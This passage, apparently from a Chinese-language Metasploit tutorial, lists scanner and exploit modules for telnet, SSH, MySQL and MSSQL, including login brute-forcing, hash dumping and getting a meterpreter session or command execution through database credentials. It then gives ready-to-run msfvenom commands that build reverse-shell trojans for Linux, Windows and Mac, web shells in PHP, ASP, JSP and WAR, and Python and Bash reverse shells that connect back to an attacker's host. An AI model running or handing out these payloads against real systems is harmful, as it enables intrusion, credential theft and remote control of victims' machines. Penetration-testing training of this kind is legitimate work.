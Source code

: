 
线程最好设置成10以上不然很慢！！！
··相关服务扫描
Use auxiliary/scanner/telnet/telnet_version(telnet服务版本)
Use auxiliary/scanner/ssh/ssh_version(ssh服务版本)
数据库检测及利用：
use auxiliary/scanner/mysql/mysql_version（查看版本）
use auxiliary/scanner/mysql/mysql_login（对数据库进行暴力破解，数据库允许外连）
use auxiliary/admin/mysql/mysql_enum（数据库信息枚举）
use auxiliary/scanner/mysql/mysql_hashdump（数据库用户hash提取）
use exploit/windows/mysql/mysql_mof（利用数据库用户密码得到一个meterpreter会话）（use exploit/windows/mssql/mssql_payload）也可以
use auxiliary/admin/mssql/mssql_exec（利用数据库密码得到cmd（高权限）的命令执行）
 
### 3.4功能程序
Metasploit框架v4之后提供的功能程序只有msfvenom和msf*scan了，这两个的基本功能和作用在前面的框架介绍中讲过，这里就只讲讲msfvenom，msf*scan因为涉及汇编，调试等基础，所以会在以后的msf高级用法中讲到。v4之前，攻击载荷封装为可执行文件、C语言、JavaScript语言等多种形式并进行各种类型的编码需要msfpayload、msfencode和msfvenom协助完成，所以v4之后将它们的功能集成在msfvenom中，所以msfvenom功能很强大！在基础教程中只讲讲用msfvenom生成简单木马，后面的编码等在进阶中会讲到。
利用msfvenom生成简单木马
Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
Mac
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho

Web Payloads
PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php

ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp

JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp

WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

Scripting Payloads

Python
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py

Bash
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
